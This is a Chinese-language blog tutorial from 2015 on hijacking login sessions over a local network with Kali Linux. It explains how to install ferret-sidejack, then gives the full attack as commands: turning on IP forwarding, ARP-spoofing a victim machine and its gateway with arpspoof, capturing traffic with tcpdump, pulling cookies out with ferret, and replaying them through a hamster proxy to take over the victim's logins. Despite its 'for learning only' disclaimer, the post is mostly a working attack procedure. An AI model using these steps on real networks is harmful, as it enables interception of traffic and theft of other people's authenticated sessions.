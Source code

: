 title: kali利用Arpspoof、tcpdump、ferret和hamster劫持登录会话
date: 2015-03-25 15:08:23
tags: 渗透测试
---
上篇博客讲解了ARP欺骗的原理<http://huirong.github.io/2015/03/25/arp/>，不懂的可以自行google，网上有很多教程。
这次讲解利用ARP欺骗劫持登录会话
<!-- more -->
#环境
**1、拓扑环境**
 攻击机：Kali Linux IP：192.168.1.118
 受害机：Win7   IP：192.168.1.131
 网关IP：192.168.1.1
 攻击工具：arpspoof、tcpdump、ferret、hamster
 前三款工具已经集成在Kali中了，ferret需要手动安装
**2、安装ferret**
首先kali 64bit默认不安装ferret，需要自己解决。我之前是apt-get install ferret安装的，执行后会弹出一个对话框，也无法生成hamster.txt，费解多时，因为此ferret非我们需要的ferret。
(1)修改source.list中的内容，如下所示：
```
## Regular repositories
deb http://http.kali.org/kali kali main non-free contrib
deb http://security.kali.org/kali-security kali/updates main contrib non-free
## Source repositories
deb-src http://http.kali.org/kali kali main non-free contrib
deb-src http://security.kali.org/kali-security kali/updates main contrib non-free
```
(2)添加对32为的支持
```
dpkg --add-architecture i386
```
(3)更新
```
apt-get clean && apt-get update && apt-get upgrade -y && apt-get dist-upgrade -y
```
(4)先删除原来的ferret
```
aptitude remove ferret
```
(5)安装我们需要的feret
```
aptitude install ferret-sidejack:i386
```
#开始攻击
**1、打开路由转发**
```
echo "1" > /proc/sys/net/ipv4/ip_forward
```
linux下开启路由转发功能，可以让linux机器作为一个路由器来工作，将受害主机的数据包发送给网关。如果不开启此功能，受害主机的将会断网，这就是ARP断网攻击。
系统重启后，恢复原来的配置，只是临时生效
**2、ARP欺骗**
```
arpspoof -i wlan0 -t 192.168.1.131 192.168.1.1
```
欺骗受害主机192.168.1.131，网关192.168.1.1的MAC地址是攻击机的MAC地址，那么在局域网内，受害主机发送给网关的数据包，都会发送给攻击机
![](http://ww3.sinaimg.cn/large/005CA6ZCjw1eqi3adliqnj30ki0duwi5.jpg)
**3、抓取本地数据包**
重新打开一个终端，输入：
```
tcpdump -i wlan0 -w hello.cap
```
![](http://ww4.sinaimg.cn/large/005CA6ZCjw1eqi2xbwlwwj30kf0dq75p.jpg)
将抓取到的数据保存到hello.cap文件中
**4、耐心等待。。。**
此时，需要等待受害主机登录摸个网站，或刷新已经登录过的页面
相当于受害在想网关发送携带了cookie的数据包，我们就是要劫持这个cookie
当刷新完毕后，就可以结束 arpspoof 和 tcpdump
**5、使用ferret分析抓取的数据包**
```
ferret -r hello.cap
```
![](http://ww4.sinaimg.cn/large/005CA6ZCjw1eqi3mc4oycj30kh0dodjl.jpg)
查看根目录，会发现自动生成了hamster.txt文件
**6、hamster架设代理，登录会话**
在终端输入
```
hamster
```
![](http://ww4.sinaimg.cn/large/005CA6ZCjw1eqi3mc4oycj30kh0dodjl.jpg)
设置浏览器代理
![](http://ww1.sinaimg.cn/large/005CA6ZCjw1eqi2yqbc8mj30f40iadhm.jpg)
打开hamster
![](http://ww2.sinaimg.cn/large/005CA6ZCjw1eqi2z18sdfj311x0dqtch.jpg)
点击192.168.1.131
左边就是获取的cookie信息，找到合适的，就可以看到受害者的登录信息
![](http://ww3.sinaimg.cn/large/005CA6ZCjw1eqi3096wd6j30m807sdi2.jpg)

OK，攻击完毕啦，本教程仅做学习用途~~~~~~~~~
#参考文献
<http://f4d3.cn/124.html>
<http://www.it165.net/safe/html/201501/1025.html>
<http://yuangeqingtian.blog.51cto.com/6994701/1302773>